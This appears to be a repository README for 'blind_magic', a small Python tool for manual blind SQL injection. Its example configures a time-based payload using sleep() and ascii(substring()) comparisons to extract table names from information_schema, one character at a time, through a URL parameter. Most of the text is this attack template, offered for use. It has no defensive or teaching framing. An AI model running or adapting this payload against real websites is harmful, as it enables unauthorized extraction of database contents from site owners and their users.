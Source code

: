 # blind_magic 0.1.2  
Manual Blind SQL Injection  
  
Some trick:  
I supply to you 5 loop variables l1 to l5 {l1} {l2} {l3} {l4} {l5}  
  
Blind query statament:  
{CONDITION_QUERY}  
{QUERY}  
{OPERATOR}  
{CHAR}  
  
example:  
  
blind_magic = Blind_magic()  
blind_magic.l(13,5,0,0,0,1,0,0,0,0)  
blind_magic.url = "http://localhost/?id="  
blind_magic.base_query = "if(({CONDITION_QUERY}),sleep(1),NULL)"  
blind_magic.condition_query = "ascii(substring(({QUERY}),{l1},1)){OPERATOR}{CHAR}"  
blind_magic.query = "select table_name from information_schema.tables limit {l2},1"  
blind_magic.run()  
print blind_magic.result  
